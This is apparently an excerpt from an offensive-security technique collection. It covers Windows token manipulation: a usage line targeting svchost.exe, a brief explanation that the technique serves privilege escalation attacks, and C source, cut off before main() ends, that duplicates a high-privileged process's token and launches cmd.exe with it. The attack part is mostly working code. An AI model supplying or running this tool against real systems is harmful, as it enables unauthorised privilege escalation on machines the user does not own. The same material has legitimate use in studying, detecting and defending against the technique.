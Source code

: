 
### Token Manipulation

Manipulating svchost process tokens

```
token_manip.exe svchost.exe
```


Token manipulation is a technique where an attacker duplicates a token from a high-privileged process and then uses that token to launch a new process with elevated privileges. This is often used in privilege escalation attacks.

```
#include <windows.h>
#include <stdio.h>

int main() {
    HANDLE hToken, hNewToken, hProcess;
    DWORD processID;

    // Assuming you've already obtained the PID of svchost.exe or any high-privileged process
    printf("Enter the PID of the high-privileged process (e.g., svchost.exe): ");
    scanf("%d", &processID);

    // Open the target process
    hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, processID);
    if (!hProcess) {
        printf("Failed to open target process.\n");
        return 1;
    }

    // Get the process token
    if (!OpenProcessToken(hProcess, TOKEN_DUPLICATE, &hToken)) {
        printf("Failed to obtain process token.\n");
        CloseHandle(hProcess);
        return 1;
    }

    // Duplicate the token
    if (!DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hNewToken)) {
        printf("Failed to duplicate token.\n");
        CloseHandle(hToken);
        CloseHandle(hProcess);
        return 1;
    }

    // Use the duplicated token to run a new process with elevated privileges
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    if (!CreateProcessWithTokenW(hNewToken, 0, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)) {
        printf("Failed to create process with elevated token.\n");
        CloseHandle(hNewToken);
        CloseHandle(hToken);
        CloseHandle(hProcess);
        return 1;
    }

    // Cleanup
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    CloseHandle(hNewToken);
    CloseHandle(hToken);
```